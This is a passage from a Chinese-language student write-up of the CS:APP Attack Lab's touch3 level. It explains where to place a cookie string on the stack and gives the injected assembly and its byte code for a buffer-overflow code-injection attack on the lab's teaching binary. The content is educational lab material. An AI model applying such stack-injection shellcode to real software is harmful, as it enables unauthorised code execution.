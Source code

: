 接下来要考虑将这段字符串放在哪个位置，由于hexmatch的代码中进行了char cbuf[110]的内存分配，如果将字符串放在非text帧位置，由于内存分配被覆盖掉。

所以考虑放在text帧，其中text帧的第一段作为返回地址，执行类似level2的操作。存放rsp的地址，即`0x5561dc78`  小端表示为 `78 dc 61 55 00 00 00 00`

那么往后推，就可以将ret的后一段地址作为字符串存放的位置。这样可以避免被覆盖，进行注入。

![image-20211030114624766](实验3：AttackLab.assets/image-20211030114624766.png)

先找到getbuf当前栈所在的位置，为0x5561dca0，这个位置作为返回值地址，而cookie字符串地址采用text帧的下一个地址，0x5561dca8。

为了让val读取到字符串，应将0x5561dca8地址赋值给rdi寄存器作为第一个参数。

```assembly
push $0x4018fa
mov  $0x5561dca8,%edi
ret
```

经过gcc和objdump得到字节码

```assembly

touch3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 fa 18 40 00       	pushq  $0x4018fa
   5:	bf a8 dc 61 55       	mov    $0x5561dca8,%edi
   a:	c3                   	retq   

```
